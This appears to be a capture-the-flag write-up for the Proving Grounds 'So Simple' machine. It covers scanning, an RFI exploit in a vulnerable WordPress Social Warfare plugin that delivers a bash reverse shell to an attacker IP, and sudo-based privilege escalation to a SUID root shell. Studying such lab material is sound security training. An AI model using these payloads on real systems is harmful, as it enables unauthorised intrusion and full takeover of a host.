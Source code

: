 ```yaml
---
layout: default
title: So Simple
parent: Proving Grounds Play
nav_order: 9
---
```


# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.172.78
```

# Enumeration

---

## 80 - HTTP

Gobuster discovers _/wordpress_.

Run _wpscan_ to reveal a vulnerable plugin _social-warefare_ version 3.5.0

```bash
wpscan --url http://192.168.172.78/wordpress/ --enumerate p --plugins-detection aggressive
```

![wpscan](../../../assets/images/ctfs/proving_grounds/sosimple/wpscan.png)

Reviewing exploits on Exploit-DB there is a POC that shows a vulnerable path.

![exploitdb](../../../assets/images/ctfs/proving_grounds/sosimple/exploitdb.png)

# Exploitation

---

## RFI

Run an initial test to display _phpinfo()_

```bash
vim evil.txt
<pre>
phpinfo();
</pre>
```

Start a Python web server and run RFI test in browser.

![rfi](../../../assets/images/ctfs/proving_grounds/sosimple/rfi.png)

Now run a reverse shell payload through the RFI vulnerable web page.

First create a new _evil.txt_ with the following bash reverse shell one-liner.

```bash
<pre>
system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.45.217/9001 0>&1'");
</pre>
```

Run the following URL payload

```bash
192.168.222.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.217:8000/evil.txt
```

Observe the _evil.txt_ file download to the target machine and the netcat listener spawn a reverse shell.

![shell](../../../assets/images/ctfs/proving_grounds/sosimple/shell.png)

# Post-Exploitation

---

## SSH as Max

We have access to the _.ssh/id_rsa_ private key for Max

Copy to the attack box and pivot to the Max user.

![id_rsa](../../../assets/images/ctfs/proving_grounds/sosimple/id_rsa.png)

![ssh](../../../assets/images/ctfs/proving_grounds/sosimple/ssh.png)

## Check SUDO Permissions for Max

We can run _/usr/sbin/service_ as user _steven_

![sudo](../../../assets/images/ctfs/proving_grounds/sosimple/sudo.png)

## SU to Steven

```bash
sudo -u steven /usr/sbin/service ../../../../bin/bash
```

![steven](../../../assets/images/ctfs/proving_grounds/sosimple/steven.png)

## Check SUDO Permissions for Steven

![sudo_steven](../../../assets/images/ctfs/proving_grounds/sosimple/sudo_steven.png)

We can run _/opt/tools/server-health.sh_ as root.

Checking _/opt_ permissions we see Steven is the owner.

![opt](../../../assets/images/ctfs/proving_grounds/sosimple/opt.png)

Create _/opt/tools/server-health.sh_ to spawn a _/bin/bash_ shell from _/var/tmp/bash_

```bash
# create the /opt/tools directory
mkdir /opt/tools

# create server-health.sh script
vi server-health.sh

# create root shell bash script
#!/bin/bash

cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash

```

![script](../../../assets/images/ctfs/proving_grounds/sosimple/script.png)

Make _server-health.sh_ executable and execute with sudo command to generate the malicious _bash_ script

```bash
sudo -u root /opt/tools/server-health.sh
```

Execute the malicious _/var/tmp/bash_ binary with the _-p_ flag to persist root privileges

![root](../../../assets/images/ctfs/proving_grounds/sosimple/root.png)
